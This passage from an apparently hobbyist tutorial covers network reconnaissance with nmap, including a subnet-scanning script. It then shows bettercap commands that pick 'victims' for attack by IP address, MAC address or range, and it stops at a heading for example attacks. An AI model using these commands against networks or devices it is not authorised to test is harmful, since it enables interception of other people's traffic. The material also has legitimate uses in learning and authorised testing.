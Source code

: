 To attack only specific hosts we will need to know an IP or a MAC. This is were somebody who can copy commands, becomes a hacker. There are many tools available to &#8220;scan&#8221; a network, but the famous _[nmap](https://nmap.org/)_-tool is a very good one. It is far to complex to explain all it&#8217;s features in this article, but check out the [documentation](https://nmap.org/) if you want to know more. You can install it with _sudo_ _apt-get install nmap_ and then **run the following command:**

<pre>sudo nmap -sn 192.168.1.*</pre>

This tool will go over all the addresses specified and give you back some info:

<pre class="output">[...]
MAC Address: B8:27:EB:4E:0C:42 (Raspberry Pi Foundation)
Nmap scan report for 192.168.1.14
Host is up (-0.13s latency).
MAC Address: 10:02:B5:D6:08:8A (Intel Corporate)
Nmap scan report for vanboven.lan (192.168.1.20)
Host is up (-0.19s latency).
[...]</pre>

If you can&#8217;t determine the IP or MAC you have to check for certain traffic (later on in this article) to try to pinpoint a certain host. (attacking only a set of hosts is way more effective and puts less strain on the network and your system). You can always just walk over to a device an retrieve it&#8217;s IP if it&#8217;s just for demonstration purposes.

If you don&#8217;t know the addresses to scan, or if you want to automate the command, use this script **scan_networks.sh**:

<pre class="output">for a in $(hostname -I)
do
    if [ "${#a}" -lt 16 ]; then
        sudo nmap -sn $(echo $a | grep -E '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | rev | cut -d . -f2- | rev).*
    fi
done</pre>

Simply run the following command to get all the hosts on the networks attached on all interfaces:

<pre>sh scan_networks.sh</pre>

**Now we can complete our** **_bettercap_****-command with a couple of victims to attack:**

<pre>sudo bettercap -I wlan0 -T 192.168.1.14, 192.168.1.9</pre>

**Another options is to specify a target by MAC address:**

<pre>sudo bettercap -I wlan0 -T 01:23:45:67:89:10</pre>

**Or to attack a range of IP addresses:**

<pre>sudo bettercap -I wlan0 -T 192.168.1.1-30</pre>

**You can also specify the addresses to ignore (but attack all others:**

<pre>sudo bettercap -I wlan0 --ignore 192.168.1.14, 192.168.1.9</pre>

### 3. Example attacks
